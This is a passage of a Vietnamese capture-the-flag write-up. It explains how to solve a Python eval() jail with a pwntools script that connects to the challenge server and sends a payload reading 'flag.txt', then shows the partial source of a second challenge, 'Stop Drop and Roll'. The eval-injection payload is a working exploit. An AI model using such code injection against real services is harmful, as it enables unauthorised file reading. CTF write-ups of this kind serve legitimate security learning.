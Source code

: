 
---

hàm eval() là hàm sẽ thực thi những câu lệnh python mà ta viết trong đó dưới dạng str. Nhưng những str ta nhập phải vượt qua black list chặn rất nhiều những ký tự và hàm quan trọng. Ta đã biết rằng flag được chứa trong file "flag.txt" nên bây giờ ta cần gửi một đoạn code có thể mở file đó và in ra cho chúng ta flag mà hàm open() và print() đều thỏa mãn backlist nên dùng nó gửi đi là có được flag.

```py
# nc 

from pwn import *

def main() -> None:

    s = remote("83.136.252.194", 45881)

    print(s.recvuntil(b"\n\n").decode())
    s.sendline(b"print(open('flag.txt','r').read())#")
    print(s.recvuntil(b'}').decode())

if __name__ == "__main__":
    main()
```

### 3. Stop Drop and Roll

---
**_SOURCE:_**

```py
import random

CHOICES = ["GORGE", "PHREAK", "FIRE"]

print("===== THE FRAY: THE VIDEO GAME =====")
print("Welcome!")
print("This video game is very simple")
print("You are a competitor in The Fray, running the GAUNTLET")
print("I will give you one of three scenarios: GORGE, PHREAK or FIRE")
print("You have to tell me if I need to STOP, DROP or ROLL")
print("If I tell you there's a GORGE, you send back STOP")
print("If I tell you there's a PHREAK, you send back DROP")
print("If I tell you there's a FIRE, you send back ROLL")
print("Sometimes, I will send back more than one! Like this: ")
print("GORGE, FIRE, PHREAK")
print("In this case, you need to send back STOP-ROLL-DROP!")

ready = input("Are you ready? (y/n) ")

if ready.lower() != "y":
    print("That's a shame!")
    exit(0)

print("Ok then! Let's go!")

count = 0
tasks = []

for _ in range(500):
    tasks = []
    count = random.randint(1, 5)

    for _ in range(count):
        tasks.append(random.choice(CHOICES))

```